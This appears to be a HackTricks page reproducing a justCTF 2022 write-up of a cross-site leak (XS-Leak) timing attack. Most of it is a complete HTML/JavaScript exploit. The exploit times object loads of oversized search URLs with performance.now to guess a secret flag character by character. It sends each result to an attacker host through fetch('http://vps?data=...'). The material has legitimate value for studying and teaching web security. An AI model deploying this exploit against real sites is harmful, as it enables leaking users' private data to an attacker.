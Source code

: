 # performance.now + Force heavy task

{{#include ../../banners/hacktricks-training.md}}

**Exploit taken from [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

In this challenge the user could sent thousands of chars and if the flag was contained, the chars would be sent back to the bot. So putting a big amount of chars the attacker could measure if the flag was containing in the sent string or not.

> [!WARNING]
> Initially, I didn’t set object width and height, but later on, I found that it’s important because the default size is too small to make a difference in the load time.

```html
<!DOCTYPE html>
<html>
  <head> </head>
  <body>
    <img src="https://deelay.me/30000/https://example.com" />
    <script>
      fetch("https://deelay.me/30000/https://example.com")

      function send(data) {
        fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
      }

      function leak(char, callback) {
        return new Promise((resolve) => {
          let ss = "just_random_string"
          let url =
            `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=` +
            ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement("object")
          object.width = "2000px"
          object.height = "2000px"
          object.data = url
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log("Error event triggered")
          document.body.appendChild(object)
        })
      }

      send("start")

      let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
      let flag = "justCTF{"

      async function main() {
        let found = 0
        let notFound = 0
        for (let i = 0; i < 3; i++) {
          await leak("..")
        }
        for (let i = 0; i < 3; i++) {
          found += await leak("justCTF")
        }
        for (let i = 0; i < 3; i++) {
          notFound += await leak("NOT_FOUND123")
        }

        found /= 3
        notFound /= 3

        send("found flag:" + found)
        send("not found flag:" + notFound)

        let threshold = found - (found - notFound) / 2
        send("threshold:" + threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while (true) {
          if (flag[flag.length - 1] === "}") {
            break
          }
          for (let char of charset) {
            let trying = flag + char
            let time = 0
            for (let i = 0; i < 3; i++) {
              time += await leak(trying)
            }
            time /= 3
            send("char:" + trying + ",time:" + time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
    </script>
  </body>
</html>
```

{{#include ../../banners/hacktricks-training.md}}
